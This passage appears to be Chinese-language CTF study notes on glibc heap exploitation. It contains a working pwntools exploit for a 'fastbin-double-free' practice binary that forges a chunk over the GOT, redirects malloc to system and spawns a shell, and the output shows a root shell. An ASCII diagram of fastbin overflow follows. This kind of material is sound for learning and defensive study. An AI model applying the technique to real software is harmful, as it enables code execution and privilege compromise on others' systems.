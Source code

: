 ```
#plt位置    x/12gx 0x400680
malloc(0, 56, '\x00')
malloc(1, 56, '\x00')
free(0)
free(1)
free(0)
malloc(2, 56, p64(system_got - 6))    #伪造一个fastbin,让malloc三次获得
malloc(3, 56, '\x00')
malloc(4, 56, '\x00')
#gdb.attach(p)
#raw_input('#')
malloc(5, 56, 'sh' + '\x00' * 28 + p64(sh))   #再次malloc获得伪造的fastbin   其中p64(sh)覆盖到malloc的地址
malloc(6, system_got + 10, '\x00')            # system_got + 10的位置是"sh"字符串的地址,原本是malloc(size),现在是system("sh")
p.interactive()
```
最终的结果
```
python exp.py 
[+] Starting local process './fastbin-double-free': pid 14619
[*] '/home/winesap/2016/w11/fastbin-double-free/fastbin-double-free'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
0x400816
0x601030
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)
```
#### fastbin overflow
overflow到下一个fastbin的fd,然后再malloc到我们想要的地方,然后通过malloc中的数据修改我们想修改的内容,大致如下
```
								chunk4(overflow)
								///
								///
fastbin[0] ---> chunk1	  +---> chunk2	  +---> chunk3
					fd ---+		/// size  |			fd ---> NULL
								/// fd ---+
								///  .
								///  .
									 .......> arbitrary address
```
首先`vim a.out`修改ld的位置,改到一个具有debug功能的libc


查看接到第几个fastbin:`(size/16)-2`

malloc(56)的原因是让size为`0x40`

